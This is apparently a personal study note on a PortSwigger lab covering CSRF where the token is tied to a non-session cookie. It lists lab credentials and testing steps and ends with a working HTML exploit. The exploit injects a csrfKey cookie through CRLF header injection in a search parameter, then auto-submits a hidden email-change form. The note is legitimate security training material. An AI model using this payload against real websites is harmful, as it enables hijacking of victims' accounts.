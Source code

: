 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie
---
```


# CSRF where token is tied to non-session cookie
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`, `carlos:montoya`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - (satisfied b/c search URL parameter allows user to set cookie)

- ~~**Testing CSRF Tokens:**~~
	1.  Remove CSRF token. and see if application accepts request.
	2. Change the request method from POST to GET.
	3. See if CSRF token is tied to a user session.

- **Testing CSRF Tokens and CSRF cookies:**
	1. Check if the CSRF token is tied to the CSRF cookie
	    - Submit an invalid CSRF Token
	    - Submit a valid CSRF Token from another user
	2. Submit valid CSRF token and cookie from another user

`CSRF token`: `aThbQJw4mhxc5lgpnOLv43OqJGDt7JMk`
`CSRFKey`: `PxlRpiXB4rnVRMN8zbMciMWNQ0ZYIuZR`

- In order to exploit this vulnerability, we need to perform 2 things:
	1. Inject a `csrfKey` cookie in the user's session (Http Header injection)
	2. Send a CSRF attack to the victim with a known `csrf` token

- **Craft exploit**
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display: none" name="csrf-iframe"></iframe>
		<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe">
			<input type="hidden" name="email" value="anything@normal-user.net" >
			<input type="hidden" name="csrf" value="YOUR-TOKEN" >
		</form>
		<img style="display: none;" src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body>
</html>
```


